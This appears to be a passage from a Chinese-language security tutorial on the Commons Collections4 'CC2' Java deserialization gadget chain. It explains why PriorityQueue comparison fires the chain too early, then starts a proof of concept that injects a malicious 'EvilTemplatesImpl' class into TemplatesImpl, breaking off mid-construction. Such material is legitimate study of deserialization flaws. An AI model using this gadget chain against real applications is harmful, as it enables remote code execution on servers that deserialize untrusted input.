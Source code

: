 ```java

    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream bout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(bout);
        objOut.writeObject(obj);
        return bout.toByteArray();
    }
    public static Object unserialize(final byte[] seria) throws Exception{
        ByteArrayInputStream btin = new ByteArrayInputStream(seria);
        ObjectInputStream ois = new ObjectInputStream(btin);
        return ois.readObject();
    }


}

```



但是如果实际去用，发现根本用不起来。

因为当我们给优先队列新增元素的时候，势必会触发默认的比较，这样的话，我们构造的时候，就已经会触发我们后面的利用链。但是我们的利用链，又是会抛出异常的（因为newTransformer后面有很多处理流程，我们的恶意类并没有去适配）

所以，我们必须确保，在add的时候，不会触发比较流程，或者触发了，但是不会影响我们。



### 第四个 poc demo



```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CC2 {
    public static void main(String[] args) throws Exception {
        byte[] evilData = serialize(cc2());
        unserialize(evilData);

    }

    static Object cc2() throws Exception{
        //构造恶意类EvilTemplatesImpl并转换(使用javassist)为字节码
        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.getCtClass("EvilTemplatesImpl"); //这里恶意类放在同目录下所以没有写包名
        byte[] bytes = ctClass.toBytecode();
        System.out.println(bytes);

        TemplatesImpl TemplatesImpl_instance = new TemplatesImpl();

        //修改恶意类的字节码设置给_bytecodes属性
```